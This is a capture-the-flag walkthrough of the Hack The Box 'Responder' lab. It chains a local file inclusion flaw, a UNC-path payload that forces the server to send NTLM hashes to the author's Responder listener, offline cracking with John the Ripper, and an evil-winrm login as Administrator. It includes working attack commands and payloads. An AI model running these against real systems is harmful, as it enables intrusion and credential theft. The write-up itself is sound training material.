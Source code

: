 ![Responder Header](images/header.png)

# Introduction

As part of the learning path for beginners, **Hack The Box** offers a series of machines under the Starting Point **Tier 1** category. These are designed to help new users get familiar with the fundamentals of penetration testing in a guided and progressive way. Among them, **Responder** stands out as the first machine that introduces a slightly more complex challenge. Despite its **Very Easy** difficulty rating, solving it requires chaining together a few steps — making it more structured than previous boxes in the path. It's a great opportunity for newcomers to practice building simple attack chains and start developing a more methodical mindset when approaching machines.

# Information Gathering

## Nmap

The first step was to identify open ports and services running on the target. I started with a full `TCP SYN` scan across all **65,535** ports.

```
sudo nmap -sS -p- -T5 10.129.197.98 

PORT     STATE SERVICE
80/tcp   open  http
5985/tcp open  wsman
```

This revealed two open ports:

- Port 80/tcp – `HTTP`
- Port 5985/tcp – `WSMan (Windows Remote Management)`

Next, I ran a more detailed service and version detection scan on these ports using the default Nmap scripts.

```
sudo nmap -sS -sC -sV -p 80,5985 -T5 10.129.197.98
```

### Port 80 – HTTP

```
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
```

The web server is running `Apache 2.4.52` on a Windows platform, along with `PHP 8.1.1`. The response headers and the use of the `(Win64)` build clearly suggest that the underlying operating system is **Windows**.

### Port 5985 – WSMan (WinRM)

```
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
```

This port is associated with `Windows Remote Management (WinRM)` and confirms that the target is running `Microsoft HTTPAPI 2.0`, further verifying the Windows environment.

### Web Technologies

To enumerate the technologies used by the web server, I utilized `Wappalyzer`, which confirmed the same information gathered with Nmap. This reinforced the initial findings and helped validate the target’s technology stack.

![Web Technologies](images/web-technologies.png)

## Web Enumeration

After identifying that the web server was running `Apache` on Windows at port `80`, I started by browsing the site manually. While there were no useful results from directory brute-forcing with tools like **gobuster**, one particular feature on the homepage caught my attention: a language selection menu. 

![Language Selection](images/language-selection.png)

Inspecting the URL when changing the language revealed the following pattern:

```
http://unika.htb/index.php?page=german.html
```

This indicated that the page content was likely being dynamically included based on the `page` parameter — a potential sign of **Local File Inclusion (LFI)**. To test for LFI, I modified the `page` parameter to attempt accessing a local system file.

```
http://unika.htb/index.php?page=../../../../../../../windows/win.ini
```

![LFI Success.png](images/lfi-success.png)

The file was successfully included and displayed in the browser, confirming the presence of an LFI vulnerability. At this point, I knew that the server was vulnerable to arbitrary file inclusion, and I began exploring ways to leverage this vulnerability to move further into the system.

## Deeper Investigation and NTLM Hash Capture via SMB

After confirming the LFI vulnerability, I initially tried to escalate it to a **Remote File Inclusion (RFI)** attack by hosting a malicious web shell via a Python HTTP server, hoping to include it remotely through the vulnerable `page` parameter. Unfortunately, this approach did not work, as the server was not configured to allow RFI.

While digging deeper, I discovered an important detail about how PHP’s `include()` function behaves on Windows systems when given a UNC path (a network share path like `\\10.10.14.249\fakeshare`). When PHP on a Windows system attempts to include a remote file via a UNC path (e.g., `\\10.10.14.249\fakeshare`), the server tries to authenticate to that remote **SMB** share using **NTLM** authentication.

This behavior can be abused to capture authentication hashes by setting up a malicious SMB server on the attacker’s machine. The target server will automatically send its credentials when attempting to access the share, allowing an attacker to capture NTLM hashes.

To exploit this, I launched **Responder** on my machine to listen and capture NTLM hashes over SMB.

```
sudo responder -I tun0 -d -w
```

Then, I crafted the URL in the vulnerable web parameter to force the server to connect to my machine’s non-existent SMB share.  

```
http://unika.htb/index.php?page=//10.10.14.249/fakeshare
```

As a result, the target machine tried to access the fake SMB share hosted by `Responder`, sending its NTLM authentication hash, which I successfully captured. Among these hashes was the hash for the `Administrator` user.

![Admin Hash.png](images/hash.png)

## Cracking the Captured NTLM Hash

After capturing the NTLM hash of the Administrator account with **Responder**, I saved it into a file named `hash.txt`. The next step was to crack the hash offline to obtain the cleartext password. I used **John the Ripper** setting the `netntlmv2` format options and the popular `rockyou.txt` wordlist.

```
john --format=netntlmv2 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)     
1g 0:00:00:00 DONE (2025-05-29 11:31) 33.33g/s 136533p/s 136533c/s 136533C/s slimshady..oooooo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

The cracking process was very fast, and **John** successfully recovered the password. With the `Administrator` password in hand, I was now ready to proceed with privileged access to the target machine.

## Accessing the Machine and Retrieving the Flag

With the cracked credentials in hand, I used **evil-winrm** to log into the target machine via the `WinRM` service running on port `5985`.

```
evil-winrm -u administrator -p 'badminton' -i 10.129.197.98
```

![Logged In.png](images/logged-in.png)

Once inside, I used **PowerShell** to search recursively for the flag file.

```
Get-Childitem -Path c:\ -Recurse -Filter "flag*"

    Directory: C:\Users\mike\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt
```

I navigated to the directory to verify and access the file.

```
cd ../../mike/Desktop
ls

    Directory: C:\Users\mike\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt
```

Finally, I opened the `flag.txt` file to capture the flag and complete the challenge.

## Conclusion

For this walkthrough, I chose to take a different approach than the official Hack The Box methodology. HTB breaks down the **Responder** challenge into eleven guided tasks, leading the user step-by-step with specific questions towards the flag. Instead, I decided to follow a more **black-box** methodology, approaching the machine as a real-world engagement — without hints or a strict path laid out. 

This meant relying on careful enumeration, logical reasoning, and chaining vulnerabilities based on the information uncovered during the whole process. I believe this approach provides a deeper learning experience, helping to develop the skills needed to tackle similar challenges in less guided, more realistic scenarios.

If you’re new to penetration testing, I recommend starting by following the guided HTB path. Then, after some time, come back and try to solve it again on your own to truly sharpen and test your skills.
